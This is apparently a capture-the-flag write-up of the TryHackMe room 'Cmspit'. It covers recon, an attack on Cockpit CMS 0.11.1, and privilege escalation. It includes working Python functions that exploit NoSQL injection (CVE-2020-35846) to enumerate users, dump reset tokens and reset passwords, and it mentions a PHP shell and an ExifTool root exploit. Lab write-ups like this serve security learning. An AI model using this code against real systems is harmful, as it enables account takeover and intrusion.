 ```yaml
---
title: "Cmspit"
platform: "TryHackMe"
difficulty: "Medium"
date: 2024-02-20
tags: ["token", "auth"]
---
```


![infocard](https://tryhackme-images.s3.amazonaws.com/room-icons/af878fdc94fd054dd34b05b7977a6c09.png)



## Reconnaissance
### **Nmap Scan**

The first step in our attack is scanning the target system using Nmap, a powerful network scanning tool that helps identify open ports and running services.

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-29 11:09 EST
Nmap scan report for 10.10.29.223
Host is up (0.32s latency).

PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  ssl/http Apache/2.4.18 (Ubuntu)
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds
```

From this scan, we can see two services running:

- **SSH (Port 22)**: OpenSSH 7.2p2
- **HTTP (Port 80)**: Apache/2.4.18 with a login page

Since web applications are often more vulnerable than SSH, we focus our attack on the HTTP service.

### **Exploring the HTTP Service**

#### **Identifying the CMS**

Upon navigating to the IP address in a browser, we encounter a login page. Upon further inspection, we identify the Content Management System (CMS) in use: **Cockpit CMS**.

![login](https://chatgpt.com/c/media/login.png)

Checking the page source reveals the CMS version: **0.11.1**.

![version](https://chatgpt.com/c/media/version.png)

#### **Searching for Exploits**

Using `searchsploit`, a tool for quickly searching available exploits in the Exploit-DB repository, we find a relevant exploit for Cockpit CMS 0.11.1.

![searchsploit](https://chatgpt.com/c/media/searchsploit.png)

This exploit allows us to enumerate usernames and reset passwords using a **NoSQL Injection vulnerability**.

### **Exploiting Cockpit CMS**

Before executing the exploit, let's understand its working.

The vulnerability is in the `/auth/check` endpoint, where the `user` parameter is not validated properly. This flaw allows us to pass arbitrary objects that get parsed by MongoDB, effectively manipulating the query execution.

![code](https://swarm.ptsecurity.com/wp-content/uploads/2021/04/cockpit_auth_authenticate_src.png)

#### Username Enumeration**

We send a crafted request to `/auth/requestreset` using the `var_dump` function to list usernames.

```python
import requests, json, re

def enumerate_users(url):
    print("[-] Attempting Username Enumeration (CVE-2020-35846) : \n")
    url = url + "/auth/requestreset"
    headers = {"Content-Type": "application/json"}
    data = {"user": {"$func": "var_dump"}}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    pattern = re.compile(r'string\(\d{1,2}\)\s*"([\w-]+)"', re.I)
    matches = pattern.findall(req.content.decode('utf-8'))
    if matches:
        print("[+] Users Found : " + str(matches))
        return matches
    else:
        print("No users found")
```

Executing the script returns the usernames:

- `admin`
- `sdarkStar7471`
- `skidy`
- `ekoparty`

![user_dump](https://chatgpt.com/c/media/user_dump.png)

#### Extracting Password Reset Tokens**

The `/auth/resetpassword` endpoint allows password reset if a valid token is provided. However, since the `token` parameter is also unfiltered, we can extract all valid reset tokens.

```python
import requests, json, re

def reset_tokens(url):
    print("[+] Finding Password Reset Tokens")
    url = url + "/auth/resetpassword"
    headers = {"Content-Type": "application/json"}
    data = {"token": {"$func": "var_dump"}}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    pattern = re.compile(r'string\(\d{1,2}\)\s*"([\w-]+)"', re.I)
    matches = pattern.findall(req.content.decode('utf-8'))
    if matches:
        print("[+] Tokens Found: " + str(matches))
        return matches
    else:
        print("No tokens found")
```

#### Resetting Password**

Using the extracted token, we can reset a user's password:

```python
import requests, json, random, string

def password_reset(url, token, user):
    print("[-] Attempting to reset %s's password:" % user)
    password = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))
    url = url + "/auth/resetpassword"
    headers = {"Content-Type": "application/json"}
    data = {"token": token, "password": password}
    req = requests.post(url, data=json.dumps(data), headers=headers)
    if "success" in req.content.decode('utf-8'):
        print("[+] Password Updated Successfully!")
        print("[+] The New Credentials: \n \t Username : %s \n \t Password : %s" % (user, password))
```

With the new credentials, we log in and upload a PHP shell to gain access as `www-data`.

![wwwdata](https://chatgpt.com/c/media/wwwdata.png)

## **Privilege Escalation**

#### **Gaining Higher Privileges**

We find a user named `stux`, and inside their home directory, a `.dbshell` file containing their password.

Using this password, we switch to `stux`:

```bash
stux@ubuntu:~$ whoami
stux
```

#### **Root Privileges via ExifTool Exploit**

`stux` can execute `exiftool` as root, which is vulnerable to `CVE-2021-22204`. Exploiting this vulnerability gives us a root shell.

![dejavu](https://chatgpt.com/c/media/dejavu.png)

```bash
root@ubuntu:~# whoami
root
```

## **Resources**

- [From 0 to RCE: Cockpit CMS](https://swarm.ptsecurity.com/rce-cockpit-cms/)
- [CVE-2021-22204: ExifTool RCE](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)